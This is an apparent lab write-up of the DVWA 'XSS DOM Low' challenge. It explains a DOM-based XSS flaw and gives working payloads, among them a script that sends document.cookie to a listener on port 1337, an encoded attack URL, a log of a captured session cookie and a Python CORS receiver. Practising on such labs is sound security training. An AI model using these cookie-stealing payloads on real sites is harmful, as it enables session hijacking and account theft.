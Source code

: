#+TITLE: DVWA - XSS DOM Low
#+AUTHOR: Leonardo Tamiano

* Description
  We have a select that allows us to choosen a language. The language
  choosen is then set as the first option in the select.

  If we inspect the code, we have the following javascript running on
  the page

  #+begin_src html
<form name="XSS" method="GET">
  <select name="default">
    <script>
      if (document.location.href.indexOf("default=") >= 0) {
      var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
      document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
      document.write("<option value='' disabled='disabled'>----</option>");
      }
      
      document.write("<option value='English'>English</option>");
      document.write("<option value='French'>French</option>");
      document.write("<option value='Spanish'>Spanish</option>");
      document.write("<option value='German'>German</option>");
    </script>
  </select>
  <input type="submit" value="Select" />
</form>
  #+end_src

  Notice how the value we put in the URL is used to build the DOM of
  the page. This opens up the possibility for a DOM base XSS. These
  types of XSS are a special case of reflected XSS where the malicious
  javascript is hidden in the URL and is pulled out by the javascript
  executing on the page while it is rendering the page rather than
  when the page is served by the server.

  This means that in DOM based XSS the final XSS payload is
  constructed dynamically during rendering instead of being served
  statically during the fetch from the servers. This can make it
  stealthier than other attacks and WAFs or other protections which
  are reading the page body do not see any malicious content.
  
* Solution
  Here the request is given as follows

  #+begin_example
GET /vulnerabilities/xss_d/?default=English HTTP/1.1
Host: evil
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://evil/vulnerabilities/xss_d/?default=English
Accept-Encoding: gzip, deflate, br
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=7puv2ipbq4rn2o5dtvg3qi71n7; security=low
Connection: close
  #+end_example

  by changing the ~default~ parameter we're able to change the DOM of
  the page. From the payload before the following HTML is constructed
  in the page

  #+begin_src html
<select name="default">
  <option value="English">English</option>
  <option value="" disabled="disabled">----</option>
  <option value="English">English</option>
  <option value="French">French</option>
  <option value="Spanish">Spanish</option>
  <option value="German">German</option>
</select>			
  #+end_src

  Consider now the following payload

  #+begin_example
English<script>alert(1)</script>
  #+end_example

  if we put this payload in the URL of the victim browser, then when
  his page will be built, it will construct the malicious javascript
  and execute it. Server side there's absolutely no check on making
  sure that the input do not contain malicious XSS payloads, and so
  we're able to execute it.

  [[./img/low.png]]

  --------

  To actually leak the cookie value, we can use the following payload

  #+begin_src js
<script> var xhr = new XMLHttpRequest(); xhr.open('GET', `http://127.0.0.1:1337/${document.cookie}`, false); xhr.send(null); </script>
  #+end_src

  which we can encode in the following URL

  #+begin_example
http://evil/vulnerabilities/xss_d/?default=%3Cscript%3E%20var%20xhr%20=%20new%20XMLHttpRequest();%20xhr.open(%27GET%27,%20`http://127.0.0.1:1337/${document.cookie}`,%20false);%20xhr.send(null);%20%3C/script%3E
  #+end_example
  
  then we start a python server which allows for CORS and by making a
  user click on that link we see the following

  #+begin_example
(venv) [leo@archlinux xss_dom]$ python3 cors-server.py 
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
127.0.0.1 - - [11/Nov/2023 18:38:58] code 404, message File not found
127.0.0.1 - - [11/Nov/2023 18:38:58] "GET /PHPSESSID=raa5vui83s45lmdpd7bfo3suk3;%20security=low HTTP/1.1" 404 -
  #+end_example

  the code for the server is the same one as used in the CSRF
  challenge and is also reported below for completeness

  #+begin_src python
#!/usr/bin/env python3

from http.server import HTTPServer, SimpleHTTPRequestHandler, test
import sys

class CORSRequestHandler (SimpleHTTPRequestHandler):
    def end_headers (self):
        self.send_header('Access-Control-Allow-Origin', '*')
        SimpleHTTPRequestHandler.end_headers(self)

if __name__ == '__main__':
    test(CORSRequestHandler, HTTPServer, port=int(sys.argv[1]) if len(sys.argv) > 1 else 1337)
  #+end_src
  

